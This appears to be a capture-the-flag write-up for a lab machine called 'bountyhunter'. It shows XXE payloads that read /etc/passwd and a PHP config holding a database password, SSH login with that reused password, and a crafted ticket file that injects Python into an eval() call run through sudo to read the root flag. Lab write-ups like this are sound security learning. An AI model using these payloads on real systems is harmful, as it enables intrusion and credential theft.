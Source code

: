 bountyhunter
---

site = 10.10.11.100

## Steps

1. Find the upload page `http://10.10.11.100/log_submit.php`
2. When we submit a form, we see that it sends a POST request to `http://10.10.11.100/tracker_diRbPr00f314.php`
3. We also observe the data that was sent over, which is a base64 encoding of an XML file

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5hPC90aXRsZT4KCQk8Y3dlPmE8L2N3ZT4KCQk8Y3Zzcz5hPC9jdnNzPgoJCTxyZXdhcmQ+YTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==

<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>a</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>
```

4. From this, we can craft our own XML files and send it directly to `http://10.10.11.100/tracker_diRbPr00f314.php`

```
prints out all the users
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>

get db.php file
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db/php">]>
		<bugreport>
		<title>&ent;</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>a</reward>
		</bugreport>
```

After decoding the contents of db.php, we get a password

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Observing the contents of `/etc/passwd`, we see that only these 2 accounts have bash shell enabled
- root
- development

We try to ssh into the server using `development` and the password above

```
> ssh development@10.10.11.100
```

Get in and cat the flag.

Notes
---

It seems like we can't directly LFI the contents of `/home/development/user.txt` via the XML exploit due to read permissions. The server was probably under the user `www-data`, while the permissions of `user.txt` was `o:root g:development`

ROOT FLAG
---

After logging in to get the shell, we see that we can run this command as sudo

```
sudo -l

/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Looking at the script, tldr, `eval` is bad

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

We craft this file that prints the contents of root

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**25+1,print(open("/root/root.txt").read())
```
